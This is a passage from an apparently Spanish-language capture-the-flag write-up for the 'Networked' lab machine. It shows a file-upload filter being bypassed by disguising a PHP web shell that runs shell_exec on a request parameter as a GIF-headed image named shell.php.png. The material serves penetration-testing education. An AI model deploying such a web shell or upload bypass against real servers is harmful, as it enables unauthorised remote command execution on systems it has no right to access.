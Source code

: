 ```bash
```


Vemos un potencial recurso que es `upload.php` y otro que se llamada `phptos.php`; por lo que ya debemos estar pensando en tratar de subir un archivo en `upload.php` y posteriormente verlo en `photos.php`. Regresando al recurso que nos descargamos, **backup.tar**, vemos que se encuentran los mismos recursos que vemos en `wfuzz`:

```bash
❯ ll
.rw-r--r-- k4miyo k4miyo  10 KB Sun Mar 20 16:38:11 2022  backup.tar
.rw-r--r-- root   root   229 B  Tue Jul  9 06:33:38 2019  index.php
.rw-r--r-- root   root   2.0 KB Tue Jul  2 06:38:56 2019  lib.php
.rw-r--r-- root   root   1.8 KB Tue Jul  2 07:53:53 2019  photos.php
.rw-r--r-- root   root   1.3 KB Tue Jul  2 07:45:10 2019  upload.php
```

Si vemos el contenido del `upload.php`, vemos que cuenta con algunas validaciones para evitar subir archivos maliciosos; lo cual lo vamos a pasar creando un archivo php que nos ayude a ejecutar comandos a nivel de sistema, lo guardaremos como **shell.php.png** cambiaremos el ***Magic Number***.

```php
GIF8;
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

Vamos a tratar de subirlo:

![""](/assets/images/htb-networked/networked-web3.png)

Se ha subido nuestro archivo, por lo tanto, vamos a recargar la página de `photos.php` para ver si encontramos nuestro archivo.

![""](/assets/images/htb-networked/networked-web4.png)
